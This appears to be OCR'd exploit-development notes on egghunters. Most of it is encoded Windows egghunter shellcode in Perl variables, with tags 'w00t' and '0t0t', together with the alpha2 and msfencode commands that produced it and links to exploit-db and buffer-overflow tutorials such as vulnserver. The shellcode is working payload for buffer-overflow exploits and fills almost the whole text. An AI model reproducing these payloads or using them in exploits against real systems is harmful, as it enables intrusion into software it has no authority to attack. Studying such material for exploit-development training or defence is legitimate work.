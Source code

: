 alpha2 eax --unicode --uppercase < simple-webserver-egg-3-egghunter.bin # uses nopenops

PPYAIAIAIAIAQATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JB1VCQGZKOLOORR22JLBQH8MNNOLLEPZCDZO6X2N2ORPC5TKJZ6OD5JJVO3EK7KOIWA


#Corelan Unicode egghunter - Basereg=EAX - tag=w00t
my $egghunter = "PPYAIAIAIAIAQATAXAZAPA3QADAZ".
"ABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAX".
"A58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABA".
"BAB30APB944JBQVE1HJKOLOPB0RBJLBQHHMNNOLM5PZ4".
"4JO7H2WP0P0T4TKZZFOSEZJ6OT5K7KO9WA";



https://www.microsoft.com/en-sg/download/details.aspx?id=8442

# 0t0t
my $egghunter ="PPYAIAIAIAIAQATAXAZAPA3QADAZA".
"BARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA".
"58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABAB".
"AB30APB944JB36CQ7ZKPKPORPR2JM2PXXMNNOLKUQJRT".
"ZOVXKPNPM0RT4KKJ6ORUZJFO2U9WKOZGA";

# https://www.exploit-db.com/exploits/36822
# Egghunter code; NtAccessCheckAndAuditAlarm method; searches for "0t0t"
# msfencode -e x86/alpha_mixed
# msfencode -e x86/unicode_upper BufferRegister=EAX
# converted to ASCII
my $egghunter =
"PPYAIAIAIAIAQATAXAZAPU3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ" .
"11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944J" .
"B9KHHHYCDO4KD1KB3QIQ9OY190IQ9PIQ9PI0IOS13PCPC1313PCOGB11J2J11R8R" .
"0P01100OQRK11OQB102Q1OR02PB0BNP0BORQ11228PPP8Q1PBT50JQ9RUOF0M212" .
"J1Z3IRO3F2O41QB1VP2S20J26RBP3BHRZ2MBVPNRGPLCCOESBCJ2C14482O2O18B" .
"52000P02EB032PTBNBKR92J0L2OBR1E3ICJPLRO0B0URZ0G2KPO1I2W11Q1AA";

https://code.google.com/archive/p/w32-seh-omelet-shellcode/downloads

https://www.fuzzysecurity.com/tutorials/expDev/5.html

https://www.exploit-db.com/exploits/36822

https://www.coalfire.com/the-coalfire-blog/the-basics-of-exploit-development-3-egg-hunters

https://resources.infosecinstitute.com/topic/buffer-overflow-vulnserver/
